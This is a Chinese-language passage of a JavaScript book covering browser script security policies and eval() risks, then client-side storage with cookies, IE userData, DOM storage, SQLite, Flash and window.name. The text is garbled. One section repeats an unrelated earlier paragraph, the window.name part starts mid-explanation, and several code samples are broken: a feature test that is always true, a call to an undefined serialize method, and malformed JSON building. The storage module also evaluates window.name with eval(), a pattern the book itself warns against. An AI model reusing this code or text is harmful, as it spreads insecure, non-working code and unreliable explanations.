特定策略的偏好文件通常位于存放当前用户配置文件的根目录下的 `\Profiles\` 子文件夹中。也可以为特定的网站组分配策略名称。要禁用 [`wrox.com`](http://wrox.com) 和 [`nitobi.com`](http://nitobi.com) 网站的 JavaScript 但不影响其他网站，你需要在 `user.js` 中添加以下几行：


## 禁用特定站点的 JavaScript

```
user_pref("capability.policy.policynames", "nojscutout");
user_pref("capability.policy.nojscutout.sites", "[http://wrox.com] http://nitobi.com]");
user_pref("capability.policy.nojscutout.javascript.enabled", "noAccess");
```

更具体的策略会覆盖不那么具体的策略。要禁用这两个站点之外的所有网站的 JavaScript，则执行相反操作：

```
user_pref("capability.policy.policynames", "jsokcutout");
user_pref("capability.policy.default.javascript.enabled", "noAccess");
user_pref("capability.policy.jsokcutout.sites", "[http://wrox.com] http://nitobi.com]");
user_pref("capability.policy.jsokcutout.javascript.enabled", "allAccess");
```

编辑 `prefs.js` 时要小心。Mozilla 在你每次关闭应用程序时都会覆盖该文件，因此你必须在程序关闭状态下进行编辑。

## Internet Explorer 安全区域

Internet Explorer 的处理方式略有不同。它没有允许用户为无限可能的设置组合自定义无限策略，而是将其限制在五个预配置的 `zones`（区域），见图 17-2。首先，你必须决定哪些网站属于哪个区域，然后为这些区域设置策略。除了这五个区域外，还有三个安全级别的 `templates`（模板：高、中高、中）以及一个用于创建自定义特定策略的自定义工具。

图 17-2 在自定义区域时，每个规则通常有三个选项：启用（Enable）、禁用（Disable）和提示（Prompt）。当你选择“提示”时，用户会收到一条警告消息，并被要求当时允许或禁止该站点使用该功能。安全区域自定义工具见图 17-3。

图 17-3

## 杂项问题

JavaScript 安全漏洞的完整情况不仅限于微软的实现错误。还有许多问题与人们构建应用程序的方式以及误用浏览器非常重要且基础的功能有关。以下是几个最显著的问题。

### 新窗口

由于对 `window.open` 功能的滥用，主要供应商已静默地对该方法实施了新的安全限制，防止其在未由用户输入触发时被使用，并防止开发者将窗口放置在屏幕外或设置为不方便的大小。Internet Explorer 和 Mozilla 都有一套纠错机制，禁止将新窗口放置在屏幕可见区域外的任何部分。还有一个最小尺寸限制。

### 拒绝服务

在传统意义上，`Denial of Service`（拒绝服务）攻击指的是通过并发请求冲击主机。现代浏览器已经实施了启发式算法来防止浏览器崩溃。

```
fn1() {
    fn2();
}

fn2() {}
```

## 数据安全

在大多数情况下，开发者不会在客户端存储大量安全数据。然而，在第 18 章中我将向你展示许多实现半持久化存储的方法。这些技术主要用于网络连接丢失或用户想要离线工作的情况。例如，Cookies 可以与特定的 URL 或域绑定，并且在该边界之外无法访问。另一种存储技术利用 `window.name` 跨页面存储数据。

### ActiveX

ActiveX 组件是小型编译程序，可以嵌入浏览器中以提供纯 JavaScript 无法实现的功能。原始的 `XMLHttpRequest` 对象就是 Internet Explorer 内的 ActiveX 控件。ActiveX 有两种类型：签名和未签名。ActiveX 的签名方法与 Mozilla 浏览器中 JavaScript 的签名方式类似，但它不是脚本而是可执行文件，对计算机具有巨大的破坏力。在 Internet Explorer 中，只有当提供它的站点位于受信区域时，用户才能安装未签名控件。如果控件使用微软的 `Authenticode` 进行了签名，则可以在其他区域安装。

当开发者编写 ActiveX 控件时，他们会标记其是否为“安全”控件。理念是，安全控件没有能力或潜力损害计算机或执行任何恶意操作。由于已安装的控件理论上可以被任何网站调用，因此安全和不安全的控件受处理方式不同。已安装并标记为“安全”的控件（如 `XMLHttpRequest` 对象）可以在除高模板以外的所有模板中执行。


### Flash

近年来，由于 Flash 通过其 `ExternalInterface` 功能轻松地与 JavaScript 集成，并且通过将 Flash 纳入技术栈可以叠加许多强大的功能，其在非娱乐目的上的使用日益增加。例如，Flash 提供了一种持久的离线存储能力，这种能力在浏览器崩溃甚至尝试清除缓存后依然存在。考虑到安全考量，Flash 令人担忧的地方在于，你基本上可以使用 Flash 的 `NetConnection` 类和远程服务器上的 `crossdomain.xml` 文件来违背“同源策略”。能够将脚本注入到网站模板中的恶意用户可以使用 AMF（动作消息格式）和 `NetConnection` 跨域传输大量数据，而用户完全毫无察觉。这与之前提到的寄生传输技术没有本质区别，只是使用这种方法有可能传输大量更多的数据。

## JSON 和 eval()

许多编程语言支持一种通常被称为 `eval()` 的动态评估函数，正如我在第 6 章提到的，它用于将字符串作为 JavaScript 代码执行。除了速度慢之外没有好的理由使用这个特性。有些开发者笨拙地尝试使用 `eval()` 来检查对象的动态属性，例如：`var result = eval("window." + myPropName);`。在 JavaScript 中，对象可以像关联数组一样处理，因此可以很容易不使用 `eval()` 实现相同的操作，例如：`var result = window[myPropName];`。尽管如此，目前 `eval()` 最常用的用法仍然是解析 JSON（JavaScript 对象表示法）。JSON 被用作 Ajax 请求的传输格式，因为当 JSON 文本作为代码评估时，它会立即变成一个非常易处理的对象：`var myObj = eval("{b:1,c:true}");`。

```javascript
document.write(myObj.b + "<br />"); // "1"
document.write(myObj.c);         // "true"
```

唯一的问题是如果你从用户输入构造 JSON 字符串，恶意代码可能会劫持应用程序。答案是使用 JSON 解析器而不是 `eval()` 来将字符串转换为对象。在 Internet Explorer 8 和 Firefox 3.5 中，原生的 `JSON` 对象为此目的提供了高速的字符串解析。在其他浏览器中，有许多解析工具可以在不使用 `eval()` 的情况下完成相同的工作。

## 总结

在本简短章节中，我介绍了许多与 JavaScript 安全相关的话题。回顾一下，我提到了：

- 浏览器厂商实现的整体安全模型本质上试图创建一个安全的“沙箱”，在其中不受信任的脚本功能受到限制，到了运行它们几乎不会产生什么危害的程度。在实践中，这种策略参差不齐。

- 同源策略限制了脚本与不同网站文档之间的交互。这影响了 cookies、帧和 Ajax 请求。然而，许多技术被用于绕过这一限制，包括跨站脚本和寄生传输。Flash 动画也可以用来规避同源策略。

- 在像 Firefox 这样的浏览器中，可以对网页和脚本进行数字签名，让用户对脚本的来源有所保证。然而，这并不能保证脚本是安全的，但允许脚本获得更高的安全性。Internet Explorer 没有此类功能，但你可以使用 Microsoft 的 `Authenticode` 功能对 ActiveX 插件进行数字签名。

- Mozilla 和 Internet Explorer 都支持某种安全区域或策略架构，尽管它们的实现方式不同。

- 浏览器曾经非常容易受到服务攻击，这种攻击会试图冻结或崩溃用户的浏览器。它们通过将 JavaScript 解释器锁定在递归循环中或利用其他类似的漏洞来实现。现代浏览器有应对这些策略的措施，这些措施总体非常有效。

- JSON 操作中使用的 `eval()` 函数也容易受到攻击，因为它执行了有时包含用户输入的不受信任脚本。较新的浏览器提供了原生的 JSON 解析工具，而对于没有提供的浏览器，基于脚本的解析器提供了某种安全性。

在第 18 章中，我将讨论客户端的持久存储技术。你将学习一些在用户计算机上存储数据的方法，用于存储会话信息、为 Web 应用程序提供离线或间歇性访问，甚至是崩溃防护。

# 18. 客户端数据与持久化

随着电子邮件和文字处理等桌面应用程序转向在线，用户不得不放弃很多东西来完成切换。例如，对于桌面电子邮件应用程序，如果用户在编写邮件过程中丢失了 Internet 连接，电子邮件不会丢失。如果他们在飞机上访问电子邮件，只要不在意重新连接后同步，他们仍然可以阅读并回复。在文字处理器中，如果电脑崩溃或用户电量耗尽，他们的文档就不会丢失。可能当他们重新启动程序时，程序会询问是否想要恢复自动保存的版本。用户已经习惯了桌面应用程序的这种健壮性，但对网络上类似情况的预期感到有些害怕。

实际上，有很多理由你可能想要考虑在你的应用程序中加入某种离线存储能力：

- 让用户在单个页面或数据集上不连续地工作，而无需与服务器同步或保持登录状态
- 在意外断电或关闭浏览器的情况下提供某种崩溃恢复能力
- 提供一种“沙箱”应用程序的方法，或者换句话说，让用户可以安全地处理几天数据集，而无需将其提交到数据库
- 在 Web 应用程序中原生为用户提供本地文件存储库

现在你可能开始看到浏览器中需要某种持久化存储了。我所说的持久化，是指存储不再局限于单个页面或会话。当然，总有 `cookies`。在浏览器中，你可以存储一段名为 `cookie` 的小信息，它是安全的，因为它无法在指定的域之外被读取。然而，cookies 也有一些缺点。首先，它们的容量非常有限。Cookies 旨在存储少量数据。另一个问题是它们会随着每次 Web 请求传输到服务器，因此可以被第三方读取（假设连接不是安全的）。理解 cookies 如何工作非常重要，我将在本章中解释 cookies 的机制，但 cookies 并不是客户端数据的全部。

`cookie` 是保存到用户计算机上的一小段信息。至少来说，一个 `cookie` 是一个键/值对，但它也可以包含域信息（以限制其在特定 URL 或域名之外的可访问性）以及过期信息（cookies 可以在指定时间后自动删除）。然而，该功能存在一些明显的局限性。首先，每个域名最多只能 20 个 `cookies`。如果你尝试设置超过此数量，旧的 `cookie` 将自动丢弃以释放空间。其次，每个 `cookie` 最大可以存储 4KB 的数据。此外，字符串在保存到 `cookie` 之前必须使用 `encodeURIComponent()` 进行编码，这会在一定程度上增加它们的体积。最后，你只能在 `cookie` 中存储文本数据，而不能存储二进制数据。好消息是，所有浏览器几乎都支持 `cookies`。有些用户会在浏览器中禁用此功能，但人数并不多。如果你担心，在使用 `cookies` 之前也可以轻松测试其是否支持。

## 创建和读取 Cookies

要设置 `cookie`，请使用 `document.cookie` 属性。`cookie` 基本上是一个具有以下语法的字符串：`name=value; expires=expirationDateGMT; path=URLpath; domain=siteDomain;` 只有 name 和 value 属性是必须的。其他参数见下表：


要创建一个 `cookie`，只需根据此语法设置 `document.cookie` 字符串：

```javascript
document.cookie = "username=awhite";
document.cookie = "sessionid=12345";
alert(document.cookie);
// displays: username=awhite; sessionid=12345
```

以下实用函数将根据键值对和可选的过期值设置 `cookie`：

```javascript
Cookies = {
    set: function(key, value, minstoexpire) {
        var expires = "";
        if (minstoexpire) {
            var date = new Date();
            date.setTime(date.getTime() + (minstoexpire * 60 * 1000));
            expires = ";expires=" + date.toGMTString();
        }
        document.cookie = encodeURIComponent(key) + "=" + encodeURIComponent(value) + expires + "; path=/";
        return value;
    }
}
```

如果设置了参数 `minstoexpire`，我会通过先计算 `minstoexpire` 中的毫秒数，然后将其加到当前日期和时间来计算一个新的 JavaScript 日期。最后，我使用 `toGMTString()` 方法将其格式化为正确的 GMT 日期。最后，将 `document.cookie` 的设置为由键值对、过期数据和根路径（这意味着 cookie 可以从当前域的任何地方访问）组成的字符串。

读取 `cookie` 要复杂一些。如果你像我在本节前面那样将 `document.cookie` 的值放入 `alert()` 框中，你将看到当前文档中所有的 `cookies`，但不包括它们的安全信息。要读取特定的 `cookie`，你必须根据分号分割字符串，并检查每个键/值对，直到找到你要找的。查看以下读取 `cookie` 值的实用函数：

```javascript
Cookies.get = function(key) {
    var nameCompare = key + "=";
    var cookieArr = document.cookie.split(';');
    for(var i = 0; i < cookieArr.length; i++) {
        var aCrumb = cookieArr[i].split("=");
        var currentKey = decodeURIComponent(aCrumb[0]);
        if (key == currentKey || " " + key == currentKey)
            return decodeURIComponent(aCrumb[1]);
    }
    return null;
}
```

此实用程序基于之前的 `Cookies` 模块。它接受一个参数作为要搜索的 `cookie` 的键或名称。由于典型的 `cookie` 字符串看起来像 `"username=awhite; sessionid=12345"`，有几点需要注意。首先，每个 `cookie` 都由分号隔开。首先，我使用 `split()` 函数通过分号分割字符串转换为数组：`var cookieArr = document.cookie.split(';');`。一旦得到它，我就遍历每个项目：`for(var i = 0; i < cookieArr.length; i++) {`。`var aCrumb = cookieArr[i].split("=");`。`var currentKey = decodeURIComponent(aCrumb[0]);`。`if (key == currentKey || " " + key == currentKey)`。

## 删除 Cookies

要删除 `cookie`，只需通过将其设置为某个时间使其立即过期。

```javascript
Cookies.del = function(key) {
    this.set(key, "", -1);
}
```

## Internet Explorer 中的 UserData

微软是第一个发现这一障碍的。开发者构建丰富级应用程序需要比 cookies 提供的更多的功能。他们在 Internet Explorer 5 中的解决方案是使用该功能使 DOM 元素等同于存储库。`userData`（如其命名）随后被写入用户的计算机，使其变得健壮。与 `cookies` 一样，`userData` 存储在信息量上是有限制的。


保存在存储中的任何信息都是未加密的，并且可以在用户文件系统中访问。

## 初始化 UserData

因为 `userData` 是一种行为，它必须在使用之前应用于 DOM 元素。有几种不同的方法可以将行为添加到现有节点上。程序化方法是使用 `addBehavior()` 方法：`node.addBehavior("#default#userData")`。你也可以通过 CSS 属性应用行为：`node.style.behavior = "url('#default#userData')"。或者，它是类的一部分：

```html
<style type="text/css">
.uD {
    display:none;
    behavior:url('#default#userData');
}
</style>
<div class="uD"></div>
```

当然，程序方法提供了最大的灵活性。我将开始名为 `Userdata` 的容器模块。该模块的初始属性将是一个元素的占位符和一个简单的初始化函数：

```javascript
Userdata = {
    storageObject: null,
    initialize: function() {
        if (!this.storageObject) {
            this.storageObject = document.createElement("div");
            this.storageObject.addBehavior("#default#userData");
            this.storageObject.style.display = "none";
            document.body.appendChild(this.storageObject);
        }
    }
}
```

在 `initialize()` 函数中，我首先检查它是否已经初始化（通过查看 `storageObject` 属性）。然后，我创建一个新的 `div` 元素（实际上它也可以是任何 HTML 元素），并使用 `addBehavior()` 添加行为。接着，我使用 `display: none` 将元素变为不可见并将其追加到文档中。最后一步是必要的，否则当你尝试从 `storage` 读写数据时，会得到“权限被拒绝”的脚本错误。

## 读取和写入 UserData

一旦你将一个启用了正确行为的元素附加到 DOM，你就可以开始向存储中读取和写入数据了。这种工作原理有点奇怪（嗯，它是 1999 年设计的）。并不是向某些存储库中读取和写入键/值对，而是序列化一个 DOM 元素并将“它”保存到存储中。当你想要检索信息时，从存储器中加载或反序列化同一个 DOM 节点。通过使用 `getAttribute()` 和 `setAttribute()`，你可以读取和写入键/值对，而不需要像处理 cookie 那样先对其进行编码。一旦准备好将 DOM 节点提交到存储器，使用 `save()` 并为节点传递一个 `name`。该名称可以是你想要的任何内容，但应该是唯一的。

以下是 Userdata 模块的扩展，允许你使用 DOM 属性读取和写入 userData 存储：

```javascript
Userdata.set = function(key, value) {
    if (!this.storageObject)
        this.initialize();

    this.storageObject.setAttribute(key, value);

    this.storageObject.save("OfflineStorage");

    return value;
};

Userdata.get = function(key) {
    if (!this.storageObject)
        this.initialize();

    this.storageObject.load("OfflineStorage");

    return this.storageObject.getAttribute(key);
};
```

在每个函数中，我首先检查 DOM 节点（数据的容器）是否存在。如果不存在，我会调用 `initialize()`，这是我在上一节中定义的。若要从存储器中删除键/值对，我可以使用 `removeAttribute()` 方法并进行类似的操作：

```javascript
Userdata.del = function(key) {
    if (!this.storageObject)
        this.initialize();

    this.storageObject.removeAttribute(key);

    this.storageObject.save("OfflineStorage");
};
```

最后，为了检测该功能的可用性，我真正需要寻找的是这是否为 Internet Explorer。最简单的方法是通过特性检测：

```javascript
Userdata.isAvailable = function() {
    // Is this Internet Explorer?
    return ('\v' == 'v');
};
```

记住，与 cookie 不同，UserData 存储仅在最初用于持久化它时的相同目录和相同协议下可用。因此，如果你在 `http://www.wrox.com/about/` 保存数据，你将无法从 `http://www.wrox.com/contact/` 读取它。

# W3C DOM Storage

Web 应用工作组已作为 HTML5 草案规范的一部分提议了两种持久化存储方案。尽管这仍处于草案阶段，但该规范的部分已经被某些浏览器采用。最早被采用的部分是 Firefox 2.0 中的 DOM 存储，随后是 Internet Explorer 8 和 Safari 4。由于它首次在 Firefox 中实现，该提议已经发生了变化，部分实现的内容后来已被废弃（例如，`globalStorage`）。此外，微软实现的内容与目前 Firefox 中提供的功能有所不同。

像 `userData` 一样，DOM 存储提供了比 cookie 多得多的容量，每个安全区域约为 10MB。此外，像 `userData` 一样，值根据键/值对进行存储。不同在于你使用的方式，DOM 存储有两个主要组件：

- `sessionStorage`：仓库中的数据只要窗口打开就会保持存储。如果窗口或标签关闭，这些值将会丢失。它们在标签之间共享，但不在跨页面（源）共享。
- `localStorage`：此区域的数据在标签、窗口之间共享，但不在跨源共享。

## 向存储中读写

这种工作原理有点奇怪（嗯，它是 1999 年设计的）。并不是向某些存储库中读取和写入键/值对，而是序列化一个 DOM 元素并将“它”保存到存储中。当你想要检索信息时，从存储器中加载或反序列化同一个 DOM 节点。通过使用 `getAttribute()` 和 `setAttribute()`，你可以读取和写入键/值对，而不需要像处理 cookie 那样先对其进行编码。一旦准备好将 DOM 节点提交到存储器，使用 `save()` 并为节点传递一个 `name`。该名称可以是你想要的任何内容，但应该是唯一的。

## 使用 DOM 存储事件

有两个事件与 DOM 存储相关：`onstorage` 和 `commit`。后者仅在数据更改时适用。你可以通过向 `document.body` 添加事件监听器来连接这些事件。以下示例在页面加载时显示一个警告框：

```html
<html>
<head>
    <title>DOM Storage Events</title>
</head>
<body>
    <h1>DOM Storage Events</h1>
    <script type="text/javascript">
        function handleStorageEvent(e){
            // Safari - only attributes:
            var str = "The key that was modified: " + e.key + "\n";
            str += "Original value: " + e.oldValue + "\n";
            str += "New value: " + e.newValue;
            alert(str);
        }

        if (document.attachEvent){
            document.attachEvent("onstorage", handleStorageEvent); // IE
        } else {
            document.body.addEventListener('storage', handleStorageEvent, false); // W3C
        }

        // make some changes to data
        sessionStorage["hello"] = "world";
        sessionStorage["hello"] = "world2";
    </script>
</body>
</html>
```

截至 Firefox 3.1，关于该事件的实现方式仍然存在一些奇怪之处。虽然在 Internet Explorer 和 Safari 中你将在此示例中获得两个事件触发，但在 Firefox 中第一次运行它时只会触发一次，推测可能是因为它只在值被更改时触发，而不是首次设置时触发。在 Safari 4 和 Internet Explorer 8 中，这些事件每次都会触发两次。

SQLite 数据库也是 HTML 5 规范用于持久化存储的重要特性。目前，只有 Safari 3.1+ 支持此功能，但随着规范变得更加稳定，未来几年几乎肯定会有更多浏览器采用它。尽管早期采用程度有限，但这仍然是一个极其强大的功能，几乎可以随着时间的推移获得广泛使用。

## 创建 SQLite 数据库

在 HTML 5、Adobe AIR 和 Google Gears 等 SQLite 实现中，最难适应的一点是，应用程序通常需要在运行时创建表（通常是首次运行时）。HTML 5 规范允许数据库版本控制（versioning），因此你可以让你的模式（schemas）与程序的正确版本保持连接，并在部署新版本时将数据从一个迁移到另一个。HTML 5 规定每个域名的最大存储限制为五兆字节。在编写本文时，Safari 4 的限制尚未确定。在操作数据库时，你会希望确保捕获冒泡出来的错误，以便优雅地处理它们。由于规范仍然很年轻，完整的错误代码范围尚未确定，但这里是 Safari 中实现的几个推荐错误代码：


要创建一个新数据库或连接到现有数据库，请使用 `window.openDatabase()`，其通用语法如下：

`databaseReference = openDatabase(shortName, fVersion, displayName, maxSize);`

第一个参数 `shortName` 是唯一标识符，对应于数据库在磁盘上的存储方式。第二个参数 `fVersion` 是一个浮点数，允许你指定与应用程序使用的精确模式版本。第三个参数 `displayName` 是浏览器在需要时在对话框中对你的数据库进行的描述。最后一个参数 `maxSize` 是一个以字节为单位的大小，将作为整个数据库存储的上限。如果数据库更改导致其超过此数字，用户将收到提示以允许超过限制。

当数据库成功打开时，该引用将作为所有后续操作的起点。在下面的示例中，我使用 `openDatabase()` 创建或连接到名为 `WroxDatabase` 的数据库，并将引用放入名为 `wroxDB` 的变量中：

```javascript
try {
    if (window.openDatabase){
        var shortName = 'WroxDatabase';
        var version = '1.0';
        var displayName = 'Wrox Demo Database';
        var maxSize = 100000; // in bytes
        var wroxDB = openDatabase(shortName, version, displayName, maxSize);
        // wroxDB 中现在应该有一个数据库实例。
    }
} catch(e){
    // 你的错误处理代码在这里。
    if (e == 2) {
        // 版本号不匹配。
        alert("Invalid database version.");
    } else{
        alert("Unknown error " + e + ".");
    }
}
```

现在是时候创建一个新模式了。我会做一些非常简单的操作。为了这一点，我使用了事务（transactions），它是 HTML 5 规范的一部分。本质上，这意味着我可以将多个相关语句分组以提高效率。这样做的好处是，如果某个语句失败，可以捕获错误并防止事务中后续语句的执行。例如：

```javascript
// 现在创建一些表
wroxDB.transaction(
    function (transaction) {
        // 创建 products 表
        transaction.executeSql('CREATE TABLE products (id INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL DEFAULT "Widget", price REAL NOT NULL DEFAULT 9.99);', []);
        // 插入一些初始数据
        // 只有当第一个语句成功时（表尚不存在），此操作才会生效
        transaction.executeSql('INSERT INTO products (name, price) VALUES ("Chair", 3.49);', []);
    }
);
```

接下来我将向你展示如何向表中读写数据。

## 读取和写入 SQLite 数据

由于 SQLite 数据库更多关注结构化数据和查询，而不是键/值对，由于你需要编写大量的代码，它们并不适合快速存储和检索值。然而，如果你曾经使用过 SQL，那么操作 SQLite 数据库对你来说将是如鱼得水。事务中最重要的函数是 `executeSql()` 方法，其通用语法如下：

`transactionObj.executeSql(sqlString, pValues, dataHandler, errorHandlerFn);`

第一个参数 `sqlString` 是你想要执行的 SQL 语句。支持参数化查询，对于每个参数，插入一个问号（`?`）。如果你使用参数化查询，第三个参数 `pValues` 是这些参数的数组。否则，你应该提供一个空数组。第四个参数 `dataHandler` 是一个可选函数，用于处理任何返回数据的查询（如 `SELECT` 查询）。最后一个参数 `errorHandlerFn` 在语句结果出现错误时可以调用。

现在我已经创建了一个表，可以开始插入一些数据。同样，我将使用事务来完成此操作：

```javascript
// 现在插入更多数据
wroxDB.transaction(
    function (transaction) {
        // 插入更多数据
        transaction.executeSql('INSERT INTO products (name, price) VALUES (?, ?)', ['Book', 2.01]);
        transaction.executeSql('INSERT INTO products (name, price) VALUES (?, ?)', ['Pen', 0.99]);
    }
);
```

注意，我没有直接在 SQL 字符串中嵌入值，而是使用参数化查询来确保字符串的完整性。现在我要对 products 表进行查询，我使用一个 `SELECT` 语句，`dataHandler` 参数（在这种情况下）包含一个匿名函数：

```javascript
// 查找价格小于 3.0 的产品
wroxDB.transaction(
    function (transaction) {
        transaction.executeSql("SELECT * from products where price <= ?", [3.0], // ? 的值数组
        function(transaction, results) {
            // 处理查询
            var string = "products 表中价格小于 3.0 的产品有：\n";
            for (var i = 0; i < results.rows.length; i++) {
                var row = results.rows.item(i);
                string = string + row['name'] + '\n';
            }
            alert(string);
        });
    }
);
```

在这个示例中，我查询了 products 表中所有小于 3.0 的产品。在 errorHandlerFn 的位置，我传递了一个接受两个参数的匿名函数：`transaction` 是正在执行的 `Transaction` 对象的引用，`results` 是一个包含 `rows` 对象的对象。`rows` 对象是一个数组。每个对象都有与表列对应的成员。此查询的结果见图 18-2。


## Safari SQLite 数据库浏览器

Safari 4 内置了作为 Web 检查器一部分的 SQLite 数据库探索器（见图 18-3）。要访问检查器，你可能需要修改设置以显示“开发”菜单。这在第 24 章中有描述。


在 SQLite 浏览器中，你可以看到所有已创建的数据库，甚至可以执行测试查询并探索实际数据本身。

在浏览器中存储数据的唯一完全持久化且跨浏览器的方法，可能是不使用任何单一浏览器的存储功能。相反，使用 Adobe Flash 的存储功能，它的功能同样强大，而且额外的好处是几乎每个人都安装了 Flash。实际比例大约占总人数的 95%，但这显然高于你的用户中可能使用单一浏览器的用户总数。这种技术的另一个优点是，它是目前唯一一个在 `Opera` 中同样有效的方法。

在 Flash 中，有两个功能可以用于此目的。第一个是 `SharedObject` 对象，它的工作方式非常像 DOM 存储，允许你设置键/值对来为每个域名存储共 100KB 的数据。如果你超过了这个限制，系统会提示用户请求权限以增加额度。在此限制之下，你可以无缝地以一种防崩溃的方式存储信息。`SharedObject` 至少需要 Flash 8。

要从 JavaScript 访问 Flash 电影，你需要使用另一个名为 `ExternalInterface` 的功能，我将在第 23 章中再次讨论它。`ExternalInterface` 支持：

- Internet Explorer 5+（仅限 Windows）
- Netscape 8+
- Mozilla 1.7.5 (Firefox 1.0)+
- Safari 1.3+
- Opera 9+

完整的解决方案需要一个小型 JavaScript 程序来嵌入并启动 Flash 电影，以及一个带有正确的 `ExternalInterface` 和 `SharedObject` API 调用的 Flash 电影。你可以使用 Adobe 的 Flash CS4 30 天免费试用版制作这个电影。

## 实现步骤

首先，创建一个新的 Flash 电影。将电影的像素宽度和高度设置为非常小的值，这样当它被放入文档中时，用户将看不到它。选择 `Actions` 面板以输入必要的 ActionScript 代码。记住 AS2 ActionScript 是 `ECMAScript` 的实现，因此语法看起来会非常熟悉。

通过导入 `ExternalInterface` 库启动程序，你用它从 JavaScript 连接到电影：

```javascript
import flash.external.ExternalInterface;
```

接下来，创建两个用于读取和写入 `SharedObject` 的函数：

```javascript
// 将数据保存到数据存储器
function saveData(store, key, value) {
    sharedObjectInstance = SharedObject.getLocal(store);
    sharedObjectInstance.data[key] = value;
    sharedObjectInstance.flush();
}

// 从数据存储器检索数据
function loadData(store, key) {
    sharedObjectInstance = SharedObject.getLocal(store);
    return sharedObjectInstance.data[key];
}
```

最后，为了将这些函数暴露给外部世界（包括你的 JavaScript 程序），在脚本底部为 `ExternalInterface` 添加一些回调函数：

```javascript
ExternalInterface.addCallback("saveData", this.saveData);
ExternalInterface.addCallback("loadData", this.loadData);
```

请查看图 18-4 以获取详细视图。如果你习惯了 `Visual Studio` 或 `Eclipse` 等 IDE，Flash 开发环境看起来可能是一个奇怪的地方。

图 18-4 

现在你准备好保存并编译电影了。选择 Flash 9 作为输出格式，如果你想加快过程，允许它创建自己的 HTML 页面。或者，你可以使用 `SWFObject` (http://code.google.com/p/swfobject/) 等组件通过脚本将 Flash 电影嵌入你的页面中。

嵌入电影的 HTML 看起来如下：

```html
<object classid="clsid:d8394dsf-sdf3f-324d-df3s-32423443242" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swfflash.cab#version=9,0,0,0" width="1" height="1" id="storageMovie" align="middle">
    <param name="movie" value="sharedobject.swf"/>
    <param name="allowScriptAccess" value="always"/>
    <embed src="sharedobject.swf" allowScriptAccess="always" quality="high" width="1" height="1" name="storageMovie" align="middle" type="application/x-shockwave-flash" plugin="http://www.macromedia.com/go/getflashplayer"/>
</object>
```

`object` 标签的关键细节是将 `allowScriptAccess` 设置为 `always`，并知道电影的 `id`；你稍后需要它。

接下来，在你的 JavaScript 应用程序中，你需要获取电影的脚本引用：

```javascript
// 通过 ID 获取电影引用
function getMovie(movieID) {
    if ('v' == 'v') {
        // IE
        return window[movieID];
    } else {
        return document[movieID];
    }
}
```

首先，我创建了一个名为 `cache` 的变量，它将作为 `window.name` 和外部世界之间的对象中间层。每当我向 `window.name` 读取或写入数据值时，我都会首先使用 `cache` 来存储它们。在我的 `get` 函数中，我会检查 `window.name` 是否包含内容。我将处理以下两种情况：

1. 如果没有内容，它一定没有被初始化。我只需将 `this.cache` 设置为空对象即可。
2. 如果有内容，我假设它之前已被用于存储，而不是来自其他地方的无关内容。处理这种情况需要多写一点代码，并且会增加不必要的混乱。

当 `window.name` 有内容时，我将 `eval()` 语句的结果赋值给 `cache`。这会将存储的对象的表示立即放入 `cache` 中，然后我可以使用数组下标对其进行查询：`this.cache[key]`。接下来，我需要一种方法将数据放入 `window.name`。这稍微复杂一些：

```javascript
Windowstorage.encodeString = function(value) {
    return encodeURIComponent(value).replace(/'/g, "\\'");
};

Windowstorage.set = function(key, value) {
    this.get();
    if (typeof key != "undefined" && typeof value != "undefined")
        this.cache[key] = value;
    var jsonString = "{";
    var itemCount = 0;
    for (var item in this.cache) {
        if (itemCount > 0)
            jsonString += ",";
        jsonString += "'" + this.encodeString(item) + ":'" + this.encodeString(this.cache[item]) + "'";
        itemCount++;
    }
    jsonString += "}";
    window.name = jsonString;
};
```

第一个函数 `encodeString()` 会获取我给它的任何字符串，并返回一个我可以安全地放在 JSON 字符串单引号之间的值。第二个函数设置 `cache` 中的值，然后遍历该对象，在此过程中构建 JSON 字符串。最后，它将结果写入 `window.name`。

要从存储中删除一个值，只需执行相反的操作：

```javascript
Windowstorage.del = function(key) {
    this.get();
    delete this.cache[key];
    this.serialize(this.cache);
};
```

首先，我通过调用 `get()` 将 `cache` 变量与 `window.name` 同步，然后从 `cache` 中删除该属性。最后，我重新序列化并将缓存存回 `window.name`。

整个模块重复如下所示，已重构为单一工具类：

```javascript
var Windowstorage = {
    cache: null,
    get: function(key) {
        if (window.name.length > 0)
            this.cache = eval("(" + window.name + ")");
        else
            this.cache = {};
        return unescape(this.cache[key]);
    },
    encodeString: function(value) {
        return encodeURIComponent(value).replace(/'/g, "\\'");
    },
    set: function(key, value) {
        this.get();
        if (typeof key != "undefined" && typeof value != "undefined")
            this.cache[key] = value;
        var jsonString = "{";
        var itemCount = 0;
        for (var item in this.cache) {
            if (itemCount > 0)
                jsonString += ",";
            jsonString += "'" + this.encodeString(item) + ":'" + this.encodeString(this.cache[item]) + "'";
            itemCount++;
        }
        jsonString += "}";
        window.name = jsonString;
    },
    del: function(key) {
        this.get();
        delete this.cache[key];
        this.serialize(this.cache);
    },
    clear: function() {
        window.name = "";
    }
};
```

## 总结

在本章中，我讨论了使用多种方法跨页面和浏览器会话持久化数据，以便提供崩溃防护和离线能力。具体来说，我谈到了：

- 如何使用 cookies 存储数据以及它们的优点。与其他存储形式不同，cookies 的容量非常有限，并在每次回传（postback）时发送回服务器。
- Internet Explorer 5 及更高版本支持名为 `userData` 的功能，它允许存储高达 1MB 的信息。
- W3C 正在提议几种方法作为 HTML 5 规范的一部分（仍处于草案阶段）。其中一种是 `DOM` 存储。某些 `DOM` 存储已经写入 Firefox 2+、IE8+ 和 Safari 4+。
- W3C 的另一种持久化存储格式是基于 `SQLite` 的客户端数据库。`WebKit` 已经实现了该功能的初步尝试，该功能现在在 Safari 3.1 及更高版本中可用。
- 最通用的存储机制可能是 Flash `SharedObject`，它可以通过 `ExternalInterface` 访问。这可以为大多数浏览器提供一种存储形式，包括那些不支持任何存储类型的浏览器。
- `window.name` 属性也可以用于存储数据，尽管仅限于页面之间。通过这种方式，它与 DOM session 非常相似，不同在于它在数据访问上不遵守同源策略（Same Origin Policy），这使其安全性较低，但更灵活。

在第 19 章中，我将讨论异步 JavaScript 和 XML，也称为 `Ajax`。你将学习如何跨浏览器执行 `Ajax` 请求，并了解一些跨域传输的知识。

# 19. Ajax 与跨域通信

在 Ajax 出现之前，使用的是 `iframe`。在浏览器尚未普遍支持 `XMLHttpRequest` (`XHR`) 的时代，开发者必须使用 `iframe` 从服务器检索内容。现在，Opera、Safari、Firefox 和 Internet Explorer 都已支持某种形式的 `XHR`，因此不再需要使用这些技巧了。

